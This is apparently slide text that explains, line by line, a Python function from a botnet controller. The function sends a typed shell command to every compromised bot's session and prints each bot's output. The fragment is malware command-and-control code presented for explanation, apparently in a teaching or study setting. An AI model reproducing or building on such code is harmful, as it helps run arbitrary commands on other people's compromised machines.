

def bash():: Defines the bash function to run commands in bash.
while True:: Starts an infinite loop.
if not botnet:: Checks if the botnet list is empty.
print(Fore.RED + "[!] Error: No bots available."): Prints an error message if no bots are available.
break: Exits the loop.
bash_command = input(">>> "): Prompts for a bash command.
for client in botnet:: Iterates through each bot in the botnet.
if 'session' in client:: Checks if the bot has an active session.
session = client['session']: Retrieves the session object.
output = send_command(session, f"echo {bash_command} | /bin/bash"): Sends the command and gets the output.
print(f"[+] Output from " + client['host']): Prints the bot's host.
print("<<< " + output.decode()): Prints the command output.
else:: If no session is found.
print(Fore.RED + f"[!] Error: No session found for {client['host']}"): Prints an error message.
if bash_command.lower() == 'exit':: Checks if the command is 'exit'.
break: Exits the loop.